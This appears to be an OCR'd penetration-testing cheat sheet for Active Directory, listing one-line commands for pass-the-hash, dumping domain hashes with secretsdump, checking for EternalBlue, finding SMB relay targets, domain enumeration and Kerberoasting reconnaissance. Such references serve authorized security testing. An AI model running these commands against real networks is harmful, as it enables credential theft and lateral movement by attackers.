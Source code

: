 ## Pass-the-hash with NetExec
```bash
# Change protocol: smb OR winrm
netexec smb $IP -u username -H ntlmhash
```

## Dump domain hashes with impacket-secretsdump
```bash
# Add -just-dc for DC hashes only OR -just-dc-ntlm for NTLM only
impacket-secretsdump domain.local/username:password@$IP
```

## Check for MS17-010 EternalBlue vulnerability
```bash
nmap -p 445 --script smb-vuln-ms17-010 $IP
```

## Check for SMB signing with NetExec
```bash
netexec smb $IP --gen-relay-list relay_targets.txt
```

## Enumerate with ldapdomaindump
```bash
ldapdomaindump -u 'domain.local\username' -p password $IP
```

## Get domain password policy via NetExec
```bash
# Use smb with --pass-pol OR ldap with --password-policy
netexec smb $IP -u username -p password --pass-pol
```

## Enumerate domain trusts with PowerView
```powershell
Get-DomainTrust
Get-DomainTrustMapping
```

## Find computers with unconstrained delegation
```powershell
Get-DomainComputer -Unconstrained
```

## Find users with SPN set for Kerberoasting
```powershell
Get-DomainUser -SPN
```
